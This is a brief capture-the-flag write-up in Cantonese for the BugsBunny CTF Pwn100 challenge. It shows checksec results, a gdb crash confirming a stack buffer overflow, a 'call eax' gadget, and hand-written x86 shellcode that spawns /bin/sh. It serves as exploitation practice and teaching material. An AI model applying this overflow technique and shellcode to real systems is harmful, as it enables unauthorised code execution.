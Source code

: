 # Bugsbunnyctf Pwn100

呢題其實唔難,不過比賽個陣炒左shellcode, 睇返writeup原來要自己打shellcode ༼☯﹏☯༽

checksec 

冇NX冇canary

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

有bufferoverflow vulnerability

ret 係input+28之後

input 係eax到

```
────────────────────────────────── Registers ───────────────────────────────────
EAX: 0xffffd1f0 ('A' <repeats 32 times>)
EBX: 0x0 
ECX: 0xfbad2288 
EDX: 0xf7fad87c --> 0x0 
ESI: 0x1 
EDI: 0xf7fac000 --> 0x1b2db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd210 --> 0x0 
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)

Legend: code, data, rodata, heap, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
````

ROPgadget:

```
0x08048386 : call eax
```


shellcode:


```x86
xor eax,eax
xor ecx,ecx
xor edx,edx
xor esi,esi
mov eax,0x0b
lea ebx,[esp-8]
int 0x80
/bin/sh\x00

```

Sad~~~~~

# Reference

1.http://sw1ss.team/bugs_bunny_ctf_2k17/2017/07/31/bugs_bunny_ctf_2k17-pwn100/

